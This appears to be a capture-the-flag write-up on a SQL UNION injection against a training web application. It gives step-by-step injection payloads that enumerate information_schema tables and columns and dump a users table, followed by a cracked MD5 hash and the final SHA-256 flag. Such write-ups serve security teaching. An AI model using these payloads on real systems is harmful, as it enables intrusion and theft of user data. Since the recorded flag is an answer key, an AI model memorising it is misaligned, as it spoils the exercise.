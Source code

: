 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
> * Input is data search using ID's, try tentative search with integer and then without

### Step 2
> * Confirm SQL vulnerabitlity with 1 = 1 or 1

### Step 3
> * Attack
> 1. Confirm number off return columns and data types
 > * trial and error: 
> _1 = 1 or 1 ORDER BY 1_...  
> _UNION SELECT ‘a’,NULL_...
>
> 2. Find tables within current database  
 >_1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_
>
 >**users**
>
>3. Find columns within desired table  
 >_1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_
>
 >**user_id,first_name,last_name,town,country,planet,Commentaire,countersign**
>
>4. Find data  
 >_1 and 1=2 union select 1,concat(user_id,first_name,last_name,town,country,planet,Commentaire,countersign) from users_
>
 >**5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28**
>
 >_MD5 DECRYPT-> 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo_
>
 > _toLower -> FortyTwo => fortytwo_
>
 >_Sh256 ENCRYPT -> fortytwo => **10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5**_

https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

